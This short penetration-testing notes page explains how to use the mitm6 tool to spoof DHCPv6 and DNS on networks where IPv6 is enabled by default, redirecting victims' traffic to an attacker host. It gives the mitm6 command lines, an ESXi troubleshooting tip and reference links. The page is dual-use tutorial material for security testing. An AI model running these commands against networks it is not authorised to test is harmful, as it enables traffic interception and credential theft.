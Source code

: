 # IPv6

### Attacking IPv6

While a majority of companies do not utilize IPv6, little know that it is actually enabled by default. By using a tool such as mitm6, we can act as a malicious DNS server and redirect traffic to our attack host. This attack can be performed by using the tool [mitm6](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/).&#x20;

The following command demonstrates basic usage of IPv6:

```bash
sudo mitm6 -d $domain
```

Additionally, the following command demonstrates running mitm6 with the `--ignore-nofqnd` flag which will ignore DHCPv6 queries that do not contain the Fully Qualfiied Domain Name:

```bash
sudo mitm6 -d $domain --ignore-nofqnd
```

#### Troubleshooting

If your testing machine was provisioned in ESXi, the following setting needs to be modified via the web console or it will not work as expected:

```bash
Networking -> VM Network -> Edit Settings -> Promiscuous Mode: Accept

# mitm6 can then be ran with the --no-ra flag.
```

### References

{% embed url="https://blog.vonahi.io/taking-over-ipv6-networks/" %}

{% embed url="https://blog.zsec.uk/ipv6-pwn/" %}
